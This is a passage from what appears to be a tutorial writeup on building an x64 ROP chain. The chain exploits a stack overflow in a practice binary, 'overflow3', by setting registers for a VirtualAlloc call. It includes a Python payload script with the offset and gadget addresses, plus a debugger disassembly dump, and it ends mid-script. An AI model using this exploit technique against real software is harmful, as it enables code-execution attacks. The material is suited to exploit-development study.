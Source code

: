 
![image](https://github.com/user-attachments/assets/d34f1a54-99f5-4b8b-a5e5-72907a689a5a)

FINALLY!  we have all of our registers set.  The good news is we're now ready to jump to VirtualAlloc which will execute as expected since we set all our registers.  The bad news is we have to set the registers in a particular order first.  The reason for this is due to the fact that RCX and RDX are popular registers that get commonly recycled/used throughout our code and their values get overwritten quite a lot as you can imagine.  So, what we end up with is setting `R9` first, then `R8`, since those registers aren't as commonly used.  Next, we set `RCX` and lastly `RDX`!

Here's our completed python script including all 4 registers and the address for VirtualAlloc included.  I'll include screenshots using x64dbg and SystemInformer along the way too:

```python
import struct
import subprocess

# Offset to the return address
junk = 296  # junk  (296 bytes)

payload = b"\x41" * junk

#rop gadgets for setting the R9 register value
###################################
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140000018)  # 0x40
payload += struct.pack("<Q", 0x140007678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", 0x140001b58)  # push rax; pop rbx; pop rsi; pop rdi; ret;
payload += b"\x90" * 16 
payload += struct.pack("<Q", 0x140007CA5)  # mov r9, rbx <see more below>

"""
0000000140007CA5 | 49:89D9                  | mov r9,rbx                           |
0000000140007CA8 | E8 D3FCFFFF              | call overflow3.140007980             |
0000000140007CAD | 48:98                    | cdqe                                 |
0000000140007CAF | 48:83C4 48               | add rsp,48                           |
0000000140007CB3 | 5B                       | pop rbx                              |
0000000140007CB4 | 5E                       | pop rsi                              |
0000000140007CB5 | 5F                       | pop rdi                              | 
0000000140007CB6 | 5D                       | pop rbp                              |
0000000140007CB7 | C3                       | ret                                  |
"""
payload += b"\x90" * 72 
payload += b"\x90" * 32 

#r8 ROP gadgets (this works but RDX MUST be 0x3000)

payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x1400095AC)  # place 3000 on stack --> 0x00000001400095AC = 0x3000
payload += struct.pack("<Q", 0x140007678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", 0x140006995)  # 0x0000000140006995: add edx, eax; mov eax, edx; ret; 
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x1400095A0)  # place 3000 - 0xC on stack 
payload += struct.pack("<Q", 0x140002410)  # 0000000140002410

#rop gadget(s) for setting the RCX register value
###################################################
payload += struct.pack("<Q", 0x14000276f)  # xor ecx, ecx; mov rax, r9; ret; 
# rcx should now be set to 0
###################################################

#rop gadgets for setting the RDX register value
#####################################################
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
```